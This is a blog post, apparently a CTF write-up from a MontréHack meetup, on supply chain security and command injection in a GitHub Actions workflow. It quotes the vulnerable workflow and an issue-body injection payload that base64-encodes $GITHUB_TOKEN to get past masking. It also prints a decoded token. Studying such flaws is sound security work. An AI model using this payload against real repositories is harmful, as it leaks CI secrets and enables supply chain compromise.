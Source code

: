 ```yaml
---
title: Supply Chain Security - Github Action
author: Zhibeau
date: 2024-06-26 20:09:00 -0400
img_path: https:////raw.githubusercontent.com/Zhibeau/zhibeau.github.io/main/_posts/24_06_26/
categories: [Cybersecurity, DevOps]
tags: [Supply Chain Security, DevOps]
---
```


# MontréHack June 2024 Meetup

In the June 2024 meetup event of MontréHack, the host [François Proulx](https://www.linkedin.com/in/francoisp/) gave an introductive presentation about supply chain security. He also created an examplar CTF [Github repository](https://github.com/fproulx-boostsecurity/gravy-overflow/tree/main) for us to get our hands dirty in the supply chain security. The following parts of this post will show the command injection vulnerability in the CTF.

# Basics of the Supply Chain Security

Supply chain security involves safeguarding the entire process of producing and delivering goods, from sourcing raw materials to delivering the final product to consumers. This infographic highlights various threats that can compromise the integrity of a supply chain, categorized into source threats, dependency threats, and build threats. Source threats include unauthorized changes (A), compromised source repositories (B), and building from modified sources (C). Dependency threats involve the use of compromised dependencies (D). Build threats encompass compromising the build process (E), uploading modified packages (F), compromising the package registry (G), and using compromised packages (H).

In the CTF, we delved into the threat E. This vulnerability is presented in GitHub Actions.

![supply-chain-threats.svg](supply-chain-threats.svg)

# Github Action - Workflow

The `.yml` file configures the workflow for GitHub Actions workflow. This workflow is triggered by specific events related to issues, issue comments, and pull requests. Here's a breakdown of how this workflow is structured:

```yml
name: Poutine Level 0
on:
  issues:
    types: [opened, edited]
  issue_comment:
    types: [created, edited]
  pull_request_target:
    types: [opened, synchronize]
    branches:
      - main
  pull_request:
    types: [closed]
    branches:
      - main

permissions: {}

concurrency:
  group: ${{ github.workflow }}
  cancel-in-progress: false
```

- **Workflow Triggers (`on`)**:
  
  - **issues**: Triggered when an issue is opened or edited.
  - **issue_comment**: Triggered when an issue comment is created or edited.
  - **pull_request_target**: Triggered when a pull request targeting the `main` branch is opened or synchronized.
  - **pull_request**: Triggered when a pull request targeting the `main` branch is closed.

- **Permissions**: Specifies permissions for the workflow. In this case, no additional permissions are set globally (`permissions: {}`).

- **Concurrency**: Ensures that only one instance of the workflow runs at a time for a given group, which is set to the workflow name.

- **Jobs**: The workflow defines four jobs, each with specific conditions and steps:
  
  ```yml
  jobs:
    fries:
      runs-on: ubuntu-latest
      timeout-minutes: 1
      if: github.event_name == 'issues'
      permissions:
        id-token: write
      env:
        GITHUB_TOKEN: ${{ secrets.GITHUB_TOKEN }}
        FLAG_GRAVY_OVERFLOW_L0_FRIES: ${{ secrets.FLAG_GRAVY_OVERFLOW_L0_FRIES }}
      steps:
        - uses: step-security/harden-runner@63c24ba6bd7ba022e95695ff85de572c04a18142 # v2.7.0
          with:
            egress-policy: audit
        - uses: rlespinasse/github-slug-action@v4
          with:
            short-length: 8
        - name: Check for profanities in issue body
          id: check_profanities
          run: |
            echo "Checking issue body for profanities..."
            PROFANITIES_LIST="bad|disguting|horrible"
            if echo "${{ github.event.issue.body }}" | grep -qiE "$PROFANITIES_LIST"; then
              echo "Profanity detected in issue body. Please clean up the language."
              exit 1
            else
              echo "No profanities found in issue body."
              exit 0
            fi
  ```
  
  **fries**:
  
  - **Runs-on**: `ubuntu-latest`
  - **Timeout**: 1 minute
  - **Condition**: Runs only if the event is an issue event.
  - **Permissions**: Allows writing to the ID token.
  - **Environment Variables**: Uses `GITHUB_TOKEN` and a secret for a flag.
  - **Steps**:
    - Uses the `step-security/harden-runner` action for auditing egress policy.
    - Uses the `rlespinasse/github-slug-action` to generate a short slug.
    - Runs a script to check for profanities in the issue body.

# Command injection in jobs

 In the `script` part of the job `fries`, we can see the body of the issue is inserted in the bash code: `if echo "${{ github.event.issue.body }}"`, so, we can inject our payload in the body of the issue to exfiltrate sensitive information in `env`: `${{ secrets.GITHUB_TOKEN }}`

To trigger the build process, we need to create or edit an issue, the payload `" | (echo $GITHUB_TOKEN | base64); then ls #` should be included in the body of the issue. The information is encoded in base64 because if the Actions will protect the sensitive env (it will be `***` if it is not encoded![fries_injection.png](fries_injection.png)

  After edited the issue, the action is running, we can check the output in the `Actions` tab:

  ![fries_exfiltration.png](fries_exfiltration.png)

  After decoding, the token in plain text can be seen:

```bash
root@aaa:~# echo "Z2hzXzduSzBEZjFWdmZuUTZQcWhPTDVoVmVwRExNR0pYNDE2T2NTbwo=" | base64 -d
ghs_7nK0Df1VvfnQ6PqhOL5hVepDLMGJX416OcSo
```